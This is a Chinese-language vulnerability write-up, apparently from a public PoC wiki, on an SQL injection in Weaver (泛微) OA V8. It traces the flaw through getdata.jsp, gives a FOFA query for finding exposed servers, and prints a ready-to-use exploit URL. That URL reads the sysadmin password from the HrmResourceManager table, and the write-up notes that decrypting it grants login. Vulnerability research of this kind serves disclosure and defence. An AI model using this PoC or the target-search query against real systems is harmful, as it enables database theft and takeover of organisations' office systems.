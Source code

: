 # 泛微OA V8 SQL注入漏洞

## 漏洞描述

泛微OA V8 存在SQL注入漏洞，攻击者可以通过漏洞获取管理员权限和服务器权限

## 漏洞影响

> [!NOTE]
>
> 泛微OA V8

## FOFA

> [!NOTE]
>
> app="泛微-协同办公OA"

## 漏洞复现

在getdata.jsp中，直接将request对象交给

**weaver.hrm.common.AjaxManager.getData(HttpServletRequest, ServletContext) : **

方法处理

![](resource/泛微OA-V8-SQL注入漏洞/media/1.png)

在getData方法中，判断请求里cmd参数是否为空，如果不为空，调用proc方法

![](resource/泛微OA-V8-SQL注入漏洞/media/2.png)

Proc方法4个参数，(“空字符串”,”cmd参数值”,request对象，serverContext对象)

在proc方法中，对cmd参数值进行判断，当cmd值等于getSelectAllId时，再从请求中获取sql和type两个参数值，并将参数传递进getSelectAllIds（sql,type）方法中

![](resource/泛微OA-V8-SQL注入漏洞/media/3.png)

根据以上代码流程，只要构造请求参数

?cmd= getSelectAllId&sql=select password as id from userinfo;

即可完成对数据库操控

POC

```
http://xxx.xxx.xxx.xxx/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager
```

查询HrmResourceManager表中的password字段，页面中返回了数据库第一条记录的值（sysadmin用户的password）

![](resource/泛微OA-V8-SQL注入漏洞/media/4.png)

解密后即可登录系统

![](resource/泛微OA-V8-SQL注入漏洞/media/5.png)

##  Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> Weaver OA 8 SQL injection

![](resource/泛微OA-V8-SQL注入漏洞/media/6.png)
